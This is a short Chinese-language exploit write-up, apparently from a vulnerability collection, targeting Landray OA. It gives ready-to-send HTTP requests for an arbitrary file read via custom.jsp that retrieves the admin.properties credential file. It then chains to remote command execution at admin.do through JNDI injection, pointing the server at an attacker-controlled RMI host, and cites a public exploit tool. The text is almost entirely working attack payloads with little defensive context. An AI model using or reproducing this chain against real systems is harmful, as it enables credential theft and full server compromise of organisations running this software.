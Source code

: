 **漏洞描述：**

攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 [admin.do](http://admin.do/) 即可利用 JNDI远程命令执行获取权限

**影响产品及版本：**

蓝凌OA

**Payload：**

利用 **`LandrayOA custom.jsp** 任意文件读取漏洞` 读取配置文件

```
/WEB-INF/KmssConfig/admin.properties
```

---

请求包

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host:
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

---

获取密码后解密登陆后台

使用工具执行命令: https://github.com/welk1n/JNDI-Injection-Exploit

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

---

运行工具监听端口 ping dnslog测试 命令执行 执行情况

```
ST /admin.do HTTP/1.1
Host:
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin:
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/cbdsdg
```

---
